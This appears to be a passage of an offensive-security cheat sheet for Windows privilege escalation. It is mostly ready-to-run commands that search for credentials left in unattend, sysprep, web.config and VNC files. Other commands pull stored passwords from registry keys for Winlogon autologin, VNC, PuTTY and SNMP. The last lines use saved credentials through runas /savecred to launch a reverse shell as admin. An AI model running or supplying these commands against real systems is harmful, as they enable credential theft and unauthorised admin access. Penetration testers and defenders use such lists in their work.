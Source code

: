 #### Config files

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```

```bash
dir /b /s unattend.xml
dir /b /s web.config
dir /b /s sysprep.inf
dir /b /s sysprep.xml
dir /b /s *pass*

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b
dir c: /s /b | findstr /si *vnc.ini
```

#### Registry

```bash
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"

### Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"

### SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

### Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

### Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### RunAs - Savedcreds

```bash
cmdkey /list  #Displays stored credentials, looks for any potential users
#Transfer the reverseshell
runas /savecred /user:admin C:\temp\reverse.exe
```

